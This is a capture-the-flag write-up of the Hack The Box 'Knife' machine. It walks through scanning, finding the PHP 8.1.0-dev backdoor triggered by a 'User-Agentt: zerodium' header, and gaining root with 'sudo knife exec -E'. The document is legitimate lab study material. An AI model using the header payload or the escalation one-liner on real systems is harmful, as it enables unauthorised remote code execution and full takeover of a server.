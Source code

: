 Tags: #Linux/Ubuntu #Easy #Apache #PHP #Backdoor #HTTP-Headers 
# **Nmap Results**

```text
Nmap scan report for 10.10.10.242
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.96 seconds
```
<br>
<br>

# **Service Enumeration**
Nmap scan report shows 2 open ports: Port 22 for SSH and port 80 for an **Apache** webserver. Before navigating to the website, I used `searchsploit` to find any exploits for this specific version of Apache httpd (2.4.41) and there were some of interest:

![[Pasted image 20241226112820.png]]

I copied the last one to my workspace and will use that later, but first I want to enumerate the website to see if I find anything else. Like always, we run `feroxbuster` to find any hidden directories, however no results were returned except for the root directory itself, so we'll proceed with the exploit:

![[Pasted image 20241226114736.png]]

Unfortunately this exploit was unsuccessful. I went ahead and pulled the other 3 exploits but none of them worked either. I'm not surprised that they didn't work, as the searchsploit output didn't say the exploits affected versions 2.4.49 and below, but just 2.4.49 or 2.4.50. However, It was still worth a try. I then used google to search for exploits but still couldn't find anything

The next thing I tried is using **burpsuite** to intercept the request to the homepage, send it to the repeater, and analyzing it to see if I find anything interesting in the request or response headers. Here's what it found:

![[Pasted image 20241226115848.png]]

There is a line exposing service and version info, which is `X-Powered-By: PHP/8.1.0-dev`. This suggests that the site is run by a PHP server. To confirm this, we can navigate to **index.php** in our browser and see if we get the same page as before, and sure enough, we do.

Now let's see if we find any vulnerabilities within this version of PHP. We'll use `searchsploit` once again by writing `searchsploit php 8.1.0-dev`:

![[Pasted image 20241226120740.png]]
<br>
<br>
# **Exploitation**
## **Initial Access**
Let's pull the 2nd one and take a look at its code:

![[Pasted image 20241226122343.png]]

The exploit contains comments about this specific version of PHP being released with a backdoor. The creator linked a blog page that dives deeper into how it works, which you can access [here](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/). Essentially, attackers impersonated PHP creator Rasmus Lerdorf and maintainer Nikita Popov and made commits on their behalf, most likely to reduce suspicion. Their backdoor relied on the presence of an unusual header `User-Agentt` and the value starting with **"zerodium"**. If these conditions were met, anything after that string was evaluated as PHP code. For example, if you wanted to execute `phpinfo();`, you would craft your request to include the line `User-Agentt: zerodiumphpinfo();`

The exploit's code creates a pseudo-shell with an infinite loop that does the following:
1. Accepts input from the attacker
2. Crafts the malicious header and pastes the user input within that header 
3. Sends the request and prints the server response, usually the output of the executed command.

Let's go ahead and execute this script. We want a shell on the system so here's what our command will look like:

![[Pasted image 20241226135049.png]]
I used the `busybox` command instead of the traditional `bash -i` string, since that didn't work because of the special characters causing PHP to misinterpret what I wanted. 

We are now logged in as James and can proceed with privilege escalation.
<br>
<br>

## **Post-Exploit Enumeration**
### **Operating Environment**

> [!tldr]- Current User
> - `id` output:
> 	`uid=1000(james) gid=1000(james) groups=1000(james)`
> - `sudo -l` output:
> 	```
> 	Matching Defaults entries for james on knife:
> 	    env_reset, mail_badpass,
> 	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
> 	
> 	User james may run the following commands on knife:
> 	    (root) NOPASSWD: /usr/bin/knife
>	```

<br>
### **Interesting Files**

> [!tldr]- /opt/opscode
>`ls -la` output:
> ```
> total 232
> drwxr-xr-x  8 root root   4096 May 18  2021 .
> drwxr-xr-x  5 root root   4096 May 18  2021 ..
> drwxr-xr-x  2 root root   4096 May 18  2021 bin
> drwxr-xr-x 25 root root   4096 May 18  2021 embedded
> drwxr-xr-x  2 root root   4096 May 18  2021 init
> -rw-r--r--  1 root root 123039 Apr 22  2021 LICENSE
> drwxr-xr-x  2 root root  49152 May 18  2021 LICENSES
> drwxr-xr-x  2 root root   4096 May 18  2021 service
> drwxr-xr-x 10 root root   4096 May 18  2021 sv
> -rw-r--r--  1 root root  20478 Apr 22  2021 version-manifest.json
> -rw-r--r--  1 root root   9135 Apr 22  2021 version-manifest.txt
> ```

>[!tldr]- /opt/chef-workstation
> `ls -la` output:
> ```
> total 184
> drwxr-xr-x 7 root root  4096 May 18  2021 .
> drwxr-xr-x 5 root root  4096 May 18  2021 ..
> drwxr-xr-x 2 root root  4096 May 18  2021 bin
> drwxr-xr-x 3 root root  4096 May 18  2021 components
> drwxr-xr-x 9 root root  4096 May 18  2021 embedded
> -rw-r--r-- 1 root root 13175 Feb 15  2021 gem-version-manifest.json
> drwxr-xr-x 2 root root  4096 May 18  2021 gitbin
> -rw-r--r-- 1 root root 85859 Feb 15  2021 LICENSE
> drwxr-xr-x 2 root root 36864 May 18  2021 LICENSES
> -rw-r--r-- 1 root root 13681 Feb 15  2021 version-manifest.json
> -rw-r--r-- 1 root root  4287 Feb 15  2021 version-manifest.txt
> ``` 

<br>
<br>
# **Privilege Escalation**  
The output of `sudo -l` shows we can run `/usr/bin/knife` as root without a password. **Knife** is a tool within the **chef-workstation** program we found in the `/opt` directory. Chef workstation is a tool **written in ruby** that helps developers and sysadmins manage and automate IT infrastructure. Knife is the command line tool that allows you to communicate with the Chef server, where all "cookbooks", "recipes", etc are stored, all of which dictate how a server (usually group of servers), are configured and updated. 

According to the documentation, **Knife** contains a sub-command **exec** that allows you to execute ruby scripts "in the context of a fully configured Chef Infra Client". This sub command has an option **-E** that allows you to pass a string of ruby code instead of a full file/script.

Since we are running this command as root, the subsequent ruby code will assume the privileges of root as well. The easiest way to get a root shell is to call `system("bash");`, which will spawn a shell. So our command is:

`sudo /usr/bin/knife exec -E 'system("bash");'`

And just like that, we are root. 
<br>
<br>
# Skills/Concepts Learned
- `searchsploit` is an amazing tool for searching through **ExploitDB** for older versions of services, but pay attention to the versions each specific exploit affects. Just because it says it affects version 2.4.50 of Apache doesn't mean it will affect older versions, unless it specifies "< 2.4.50"
- If searchsploit fails, do some googling online and look out for potential exploits/POCs on github or other sites that disclose and explain a service's vulnerability. 
- In **burpsuite**, pay attention to unusual lines in the request or response headers.
<br>
# Proof of Pwn
https://www.hackthebox.com/achievement/machine/391579/347